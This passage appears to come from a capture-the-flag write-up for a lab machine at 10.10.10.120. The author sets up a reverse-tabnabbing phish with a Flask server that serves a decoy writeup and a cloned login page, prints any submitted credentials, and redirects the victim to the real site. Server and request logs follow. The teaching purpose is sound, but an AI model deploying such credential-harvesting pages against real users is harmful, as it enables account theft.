 I also added a silly generic writeup to give the admin something to read.

#### Generate Login / Server

I’ll grab the source from the login page and save it as `loginform.html`. The HTML form `action` points to `/accounts/login/`, Now I’ll write a quick Flask server to handle both the writeup and the fake login:

```

#!/usr/bin/env python3

from flask import *

app = Flask(__name__, template_folder='.')

@app.route("/writeup")
def writeup():
    return render_template('writeup.html')

@app.route("/accounts/login/", methods=['GET', 'POST'])
def login():

    if request.method == 'POST':
        print('\n'.join([f'{x[0]}: {x[1]}' for x in request.form.items()]))
        return redirect("http://10.10.10.120/accounts/login/", code=302)
    else:
        return render_template('loginform.html')

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=80)

```

Requests to `/writeup` will return the tab nabber page. For `/accounts/login/`, if it’s a GET request, it will return the static page I saved. If it is a POST, it will print the form data and then return a redirect back to the legit site. I’ll run the site with `python3 fake_login.py`, and the webserver listens on 80:

```

oxdf@parrot$ python fake_login.py 
 * Serving Flask app "fake_login" (lazy loading)
 * Environment: production
   WARNING: This is a development server. Do not use it in a production deployment.
   Use a production WSGI server instead.
 * Debug mode: off
 * Running on http://127.0.0.1:80/ (Press CTRL+C to quit)

```

Just loading the page myself, I noticed that the CSS and images are off, and there’s a bunch of 404s at Flask:

```
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /accounts/login/ HTTP/1.1" 200 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/jquery.toasts.css HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/signin.css HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/img/logo.png HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/js/jquery.toast.js HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/css/signin.css HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/img/logo.png HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /static/js/jquery.toast.js HTTP/1.1" 404 -
127.0.0.1 - - [14/Jul/2021 06:24:45] "GET /img/favicon.ico HTTP/1.1" 404 -

```
